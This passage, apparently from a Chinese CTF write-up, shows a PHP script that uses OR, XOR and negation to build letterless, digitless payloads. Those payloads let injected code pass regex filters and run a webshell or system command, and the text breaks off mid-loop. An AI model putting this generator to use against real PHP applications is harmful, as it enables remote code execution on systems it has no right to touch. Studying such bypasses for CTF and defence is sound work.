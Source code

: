 ![image-20220324171350018](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203241713237.png)

闭合后，就开始用`无字母数字写webshell`

脚本：利用异或构造字母

```php
<?php
/*
# -*- coding: utf-8 -*-
# @Author: Y4tacker
# @Date:   2020-11-21 20:31:22
*/
//或
function orRce($par1, $par2){
    $result = (urldecode($par1)|urldecode($par2));
    return $result;
}

//异或
function xorRce($par1, $par2){
    $result = (urldecode($par1)^urldecode($par2));
    return $result;
}

//取反
function negateRce(){
    fwrite(STDOUT,'[+]your function: ');

    $system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));

    fwrite(STDOUT,'[+]your command: ');

    $command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));

    echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
}

//mode=1代表或，2代表异或，3代表取反
//取反的话，就没必要生成字符去跑了，因为本来就是不可见字符，直接绕过正则表达式
function generate($mode, $preg='/[0-9]/i'){
    if ($mode!=3){
        $myfile = fopen("rce.txt", "w");
        $contents = "";

        //为什么要256，因为我要构造%xx的url编码，突然发现url编码中%后的东西，都是16进制码。
        for ($i=0;$i<256;$i++){
            for ($j=0;$j<256;$j++){
                if ($i<16){
                    $hex_i = '0'.dechex($i);
                    //dechex()，将十进制转换为二进制
                    //至于为什么要加个0，因为后面%不能只有一位，必须两位，类似%xx。
                }else{
                    $hex_i = dechex($i);
                }
                if ($j<16){
                    $hex_j = '0'.dechex($j);
                }else{
                    $hex_j = dechex($j);
                }
                if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
                    //hex2bin(),将16进制转换为ASCII码，
                    //bin2hex — 函数把包含数据的二进制字符串转换为十六进制值
                    echo "";
```